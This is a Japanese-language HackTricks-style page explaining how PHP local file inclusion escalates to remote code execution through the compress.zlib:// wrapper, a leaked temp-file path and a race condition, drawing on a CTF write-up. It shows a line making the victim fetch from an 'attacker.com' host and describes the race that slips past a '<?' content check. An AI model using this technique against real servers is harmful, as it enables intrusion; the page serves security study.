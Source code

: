 # LFI2RCE Via compress.zlib + PHP_STREAM_PREFER_STUDIO + Path Disclosure

{{#include ../../banners/hacktricks-training.md}}

### `compress.zlib://` と `PHP_STREAM_PREFER_STDIO`

`PHP_STREAM_PREFER_STDIO` フラグを使用して `compress.zlib://` プロトコルで開かれたファイルは、後で接続に到着するデータを書き続けることができます。

これは、次のような呼び出しを意味します:
```php
file_get_contents("compress.zlib://http://attacker.com/file")
```
http://attacker.com/fileにリクエストを送信すると、サーバーは有効なHTTPレスポンスでリクエストに応答し、接続を維持し、後でファイルに書き込まれる追加データを送信する可能性があります。

この情報は、php-srcコードのmain/streams/cast.cのこの部分で確認できます:
```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```
### レースコンディションによるRCE

[**このCTF**](https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer)は、前のトリックを使用して解決されました。

攻撃者は、**`compress.zlib`**プロトコルを使用して、**攻撃者のサーバーからファイルを読み込む接続を被害者サーバーに開かせます**。

**この接続**が存在している間、攻撃者は**作成された一時ファイルのパスを外部に流出させます**（サーバーによって漏洩されます）。

**接続**がまだ開いている間、攻撃者は**自分が制御する一時ファイルを読み込むLFIを悪用します**。

しかし、ウェブサーバーには、**`<?`**を含むファイルの読み込みを**防ぐ**チェックがあります。したがって、攻撃者は**レースコンディション**を悪用します。まだ開いている接続の中で、**攻撃者**は**ウェブサーバーが禁止された文字を含むかどうかをチェックした後に**PHPペイロードを**送信しますが、**その内容を読み込む前に**送信します。

詳細については、[https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer)のレースコンディションとCTFの説明を確認してください。

{{#include ../../banners/hacktricks-training.md}}
